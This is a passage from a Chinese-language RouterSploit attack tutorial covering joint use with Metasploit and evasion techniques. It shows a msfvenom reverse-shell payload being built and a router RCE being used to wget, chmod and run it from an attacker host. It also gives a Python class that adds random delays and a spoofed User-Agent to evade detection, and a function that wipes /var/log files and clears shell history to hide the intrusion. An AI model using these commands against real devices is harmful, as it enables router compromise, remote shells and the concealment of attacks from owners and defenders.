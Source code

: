 #### 2. 与 Metasploit 协同工作

```bash
# 1. 使用 RouterSploit 获取初始访问
# 2. 使用 Metasploit 生成 payload
msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > payload.elf

# 3. 通过 RouterSploit 的 RCE 上传并执行 payload
rsf > use exploits/routers/target/exploit
rsf (Exploit) > set target 192.168.1.1
rsf (Exploit) > run "wget http://192.168.1.100/payload.elf -O /tmp/payload.elf"
rsf (Exploit) > run "chmod +x /tmp/payload.elf"
rsf (Exploit) > run "/tmp/payload.elf"
```

---

### 十四、高级防御规避技术

#### 1. 时序攻击检测规避

```python
import random
import time

class StealthExploit(HTTPClient):
    def stealth_request(self, method, path, **kwargs):
        # 添加随机延迟避免检测
        time.sleep(random.uniform(1.0, 3.0))
        
        # 使用常见的 User-Agent
        headers = kwargs.get('headers', {})
        headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        kwargs['headers'] = headers
        
        return self.http_request(method, path, **kwargs)
```

#### 2. 日志清理

```python
def clean_logs(self):
    # 尝试清理访问日志
    commands = [
        "echo '' > /var/log/httpd_access.log",
        "echo '' > /var/log/messages",
        "history -c"
    ]
    
    for cmd in commands:
        self.execute_command(cmd)
```

---
